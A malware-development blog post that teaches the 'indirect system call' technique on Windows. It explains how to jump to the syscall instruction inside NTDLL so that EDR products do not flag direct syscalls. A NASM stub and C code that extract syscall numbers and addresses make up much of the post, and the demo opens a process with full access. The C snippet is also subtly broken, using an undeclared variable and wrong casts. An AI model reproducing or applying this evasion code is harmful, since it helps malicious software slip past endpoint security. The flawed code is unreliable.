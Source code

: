 # Indirect System Call

## Theory

There isn't much difference between a direct system call & indirect system call. As you might have seen , the implementation for direct system call was to invoke a `syscall` instruction inside the assembly. The problem with this method is that it can easily be sensed by EDR's because it is weird for a syscall to be invoked from anywhere outside of the NTDLL. So the _gato_ had to now think of a workaround.

<figure><img src="../../.gitbook/assets/image (100).png" alt="" width="188"><figcaption><p><em>HMM I can snek behind EDR</em></p></figcaption></figure>

So it finally had a better thought, which was to instead have a `jmp` instruction to where the syscall is. This saves us from calling the syscall directly + since we jmp to a memory inside NTDLL , the syscall seems to be coming from a legit source. A nice idea indeed. Putting his thought to an assembly, _кошка_ finally finishes it's new work.

## Indirect System Call

{% code title="indirect_sys.asm" %}
```nasm
.data
EXTERN dwNtOpenProcess:DWORD;
EXTERN sysAddr:QWORD;

.code
iNtOpenProcess PROC
                mov r10, rcx
                mov eax, dwNtOpenProcess
                jmp qword ptr sysAddr
                ret
iNtOpenProcess ENDP
....
END
```
{% endcode %}

Now that we have updated our assembly, we also have to tweak our C code. Firstly, we need to get the address to the memory where the syscall occurs. Again we can do it by simply parsing any function until we reach the bytes `0x0F 0x05` which is the [OPCode](https://en.wikipedia.org/wiki/Opcode) for a system call, then we can just jmp to this address later. Also since we are jumping to a `syscall` we don't need to keep looking for different syscalls for different functions, any syscall can be used to do the job. So for `NtOpenProcess`, we can also use syscall within the `NtClose` function. Although, we still would have to get the **SSN** of each function. Here's a simple C code to do that

```c
VOID get_ssn_sign(HMODULE ntHandle, CONST LPCSTR fnName, PDWORD fnSSN, PUINT_PTR sysAddr) {

    UCHAR       sysSignature[2] = { 0x0F, 0x05 };
    DWORD               SussyNum = 0;
    UINT_PTR    NtfnAddress = NULL;

    NtfnAddress = (UINT_PTR)GetProcAddress(ntHandle, fnName);
    if ((PVOID)NtfnAddress == NULL) {
        warn("GetProcAddress Failed  @-->0x%d || NtfnAddress @--0x%x", GetLastError(), NtfnAddress);
        return;
    }
    
    BYTE ssn1= (BYTE)((PBYTE)(NtfnAddress + 0x4))[0];
    BYTE ssn2 = (BYTE)((PBYTE)(NtfnAddress + 0x4))[1];
    *fnSSN = (PDWORD)((ssn2 << 8) | ssn1);
    *sysAddr= NtfnAddress + 0x12;
    // Again the 0F 05 should be at offset of 0x12
    
    if (memcmp(sysSignature, *sysAddress, sizeof(sysSignature)) == 0) {
        info("Found @---0x%p", *sysAddress);
    }
    else {
        warn("weird function, no sig found");
        return;
    }
}
```

After getting the SSN for every function, we will get the address for the syscall instruction and then it's just the same as it was for direct system call. Here's a snippet , and once again you can find the full code in [my github](https://github.com/ZzN1NJ4/Malware-Development/blob/main/isystemcalls/main.c).

```c
QWORD sysAddr;

get_ssn_sign(ntdllModule, "NtOpenProcess", &dwNtOpenProcess, &sysAddr);

STATUS = iNtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &OA, &CID);
if (STATUS != STATUS_SUCCESS) {
    warn("NtOpenProcess failed with  @-->%d", GetLastError());
    goto deadend;
}
....
```

Also dont' forget to setup the asm file just in the same way as described in the previous post. With that, we come to an end. This was a short one since it required just a slight tweaking in the system call implementation. We can run this and see the calc spawning.

<figure><img src="../../.gitbook/assets/indirect_syscall.gif" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption><p> <em>Indrect Syscalls are Cat-astrophic !</em></p></figcaption></figure>

I hope you guys did understand what I tried explaining. You can dm me on [twitter ](https://x.com/ZzN1NJ4)anytime for any queries. There's a lot to talk about, I hope I am able to squeeze some more time for this. Thanks for reading :)

## References

* [https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls](https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls)
* [https://medium.com/@amitmoshel70/intro-to-syscalls-windows-internals-for-malware-development-pt-2-b8d88bb10eb9](https://medium.com/@amitmoshel70/intro-to-syscalls-windows-internals-for-malware-development-pt-2-b8d88bb10eb9)
